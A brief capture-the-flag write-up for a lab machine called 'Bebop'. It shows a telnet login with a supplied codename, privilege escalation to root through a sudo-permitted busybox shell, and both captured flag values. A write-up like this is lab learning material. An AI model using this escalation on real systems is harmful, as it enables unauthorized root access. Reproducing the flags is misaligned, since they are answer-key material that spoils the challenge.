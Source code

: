 # Bebop 

> VOiD | Thursday 12 August 2021 09:54:20 AM IST

My IP : 10.11.43.119
Target IP : 10.10.189.178

```
For this mission you have been assigned the codename "pilot"
```

```bash
telnet 10.10.189.178
pilot

user --> pilot
cat user.txt
THM{r3m0v3_b3f0r3_fl16h7}

sudo /usr/local/bin/busybox sh 

user --> root
cat root.txt 
THM{h16hw4y_70_7h3_d4n63r_z0n3}


```


